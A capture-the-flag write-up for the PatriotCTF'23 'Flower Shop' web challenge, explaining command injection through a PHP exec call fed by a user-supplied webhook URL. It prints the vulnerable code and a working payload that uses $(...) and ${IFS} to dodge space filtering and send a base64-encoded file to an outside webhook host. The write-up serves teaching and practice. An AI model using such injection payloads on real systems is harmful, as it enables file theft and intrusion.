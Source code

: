 ```yaml
---
title: "[PatriotCTF'23] Flower Shop"
date: 2023-09-12T12:15:01+08:00
author: "Bowen"
tags:
- web
- php
ctfs:
- PatriotCTF'23
---
```


# Flower Shop

This web challenge involves exploiting a `exec` statement in a vulnerable PHP script. Apparently this solution was unintended, but it made the challenge a whole lot easier as the intended solution was almost impossible to solve.

## Description

> Flowers!

The files for this challenge can be found [here](FlowerShop.zip).

---

## Overview

![flower shop page](flower-shop.png)

Upon visiting the site, we see that there are fields to sign up, login, and reset one's password. The login and signup functionalities seem to function normally and do not seem vulnerable to SQL injections. However, when looking through the source for password reset, I came across an `exec` statement.

```php
// File: app/classes/reset.class.php
public function resetPassword() {
    $this->wh = $this->checkUser($this->uid);
    if (!$this->wh) {
        header("location: ../login.php?error=InvalidUser");
        exit();
    }

    $this->tmpPass = $this->tmpPwd($this->uid);

    // There's an exec statement here, are we able to exploit it?
    exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");

    return $this->tmpPass;
}
```

## Inspecting Exec

The `exec` function seems to be running a shell command on `send_pass.php` with the arguments of `tmpPass` and `wh`. `tmpPass` is generated within the current function and we do not have any control over it. However, `wh` contains the value of the webhook that we pass in when signing up.

`wh` does seem to have some restrictions too. From `signup.class.php` we can infer that `wh` must be a valid URL as it is passed through the `filter_var` function with the `FILTER_VALIDATE_URL` flag. This also means that all illegal characters are removed (such as spaces). You can find out more about it [here](https://www.w3schools.com/php/filter_validate_url.asp).

```php
// File: app/classes/signup.class.php
public function signupUser() {
    // ...
    if (!filter_var($this->wh, FILTER_VALIDATE_URL)) {
        header("location: ../login.php?error=NotValidWebhook");
        exit();
    }
    // ...
}
```

## Bash in a Bash

Since the commands are passed into bash, we can evaluate expressions within a command using `$(expression here)`. For example, if we want to read a value from a file and send it to a website using cURL, we normally do it the following way:

```bash
$ cat file_to_read.txt
this is some example content

$ curl http://example.com?p=this is some example content
```

However, it can be simplified into:

```bash
$ curl http://example.com?p=$(cat file_to_read.txt)
```

Our command `cat file_to_read.txt` will be ran first, `$(cat ...)` will be replaced with the output of the command.

## Exploiting Exec

Using the technique above, we can craft a malicious webhook that reads the `admin.php` file to leak the flag:

`https://webhook.site/...?p=$(cat admin.php)`

However, the payload above doesn't work just yet. The `filter_var` function in `signup.class.php` removes all spaces, leaving us with an invalid command of `catadmin.php`.

So, how can we bypass this space filtering? [This](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) post on StackExchange gives us the perfect expression we need: `${IFS}`. When `${IFS}` is evaluated, it gives us an empty space 😃

However, if there are spaces or newlines in the parameter passed to cURL, it will treat it as seperate arguments and not send them 😢

![curl params not working](curl-params-not-working.png)

## Removing Spaces

In order to remove the spaces from the output, the simplest way would be to read and encode the file using `base64`, so lets try to craft a command that does just that. The argument `-w0` tells `base64` to not print newlines and keep the output to one single line.

`base64 -w0 ../admin.php`

Lets replace all the spaces with `${IFS}` and register that URL as the webhook!

`https://webhook.site/...?p=$(base64${IFS}-w0${IFS}../admin.php)`

And we get the following output! Once we decode it, we'll be able to extract the flag 🥳

![response](response.png)

Flag: `CACI{y0uv3_f0und_th3_rar3st_s33d_0f_all!}`
